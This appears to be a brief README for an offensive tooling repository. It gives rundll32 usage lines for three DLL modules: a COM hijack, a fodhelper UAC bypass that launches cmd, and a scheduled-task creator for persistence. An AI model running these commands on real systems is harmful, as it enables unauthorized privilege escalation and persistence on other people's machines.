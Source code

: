 # Usage:
### ieHijack
计算器的com劫持
```
rundll32.exe ieHijack.dll,ieHijack C:\users\test\test.dll
```
### fodhelper
uac bypass
```
rundll32.exe fodhelper.dll,fodhelper cmd
```
### schtask
计划任务的dll实现
```
rundll32.exe schtask.dll,CreateTask C:\users\test\test.exe
```
